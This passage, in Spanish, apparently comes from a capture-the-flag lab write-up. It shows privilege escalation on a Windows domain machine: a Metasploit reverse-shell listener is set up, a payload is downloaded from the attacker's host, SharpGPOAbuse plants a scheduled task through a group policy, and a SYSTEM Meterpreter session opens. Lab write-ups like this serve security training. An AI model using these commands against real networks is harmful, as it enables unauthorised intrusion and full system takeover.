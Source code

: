 Y en otra ventana preparas el listener de metasploit:

```js
❯ msfconsole -q
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 11603
LPORT => 11603
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST tun0
LHOST => tun0
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
```

Lo transfieres con el método dicho anteriormente (ptyhon) y programas la tarea con la GPO:

```js
PS C:\Users\M.SchoolBus\Desktop> Invoke-WebRequest http://IP:PORT/backup.exe -outfile backup.exe
PS C:\Users\M.SchoolBus\Desktop> .\SharpGPOAbuse.exe --AddComputerTask --GPOName "AbussingGPO" --Author "randname" --taskname "Session" --Command "powershell.exe" --Arguments ' -c C:\Users\M.SchoolBus\Desktop\backup.exe'
```

Luego, __forzamos la carga del GPO__ y obtendremos nuestra shell!

```java
PS C:\Users\M.SchoolBus\Desktop> gpupdate /force                                                                                                                                                              Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.
```

Y en nuestra consola de `metasploit`...

```bash
[*] Sending stage (177734 bytes) to 10.10.11.60
[*] Meterpreter session 2 opened (10.10.14.2:11603 -> 10.10.11.60:53790) at 2025-09-01 07:02:22 -0600

(Meterpreter 2)(C:\Windows\system32) > getuid
Server username: NT AUTHORITY\SYSTEM
```

Sólo revisa `C:\Users\Administrator\Desktop`

```js
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D129-C3DA

 Directory of C:\Users\Administrator\Desktop

03/11/2025  04:14 PM    <DIR>          .
03/11/2025  03:37 PM    <DIR>          ..
02/25/2025  03:06 PM             2,083 cleanup.ps1
09/01/2025  04:01 AM                34 root.txt
               2 File(s)          2,117 bytes
               2 Dir(s)   1,906,348,032 bytes free

C:\Users\Administrator\Desktop>type root.txt
```
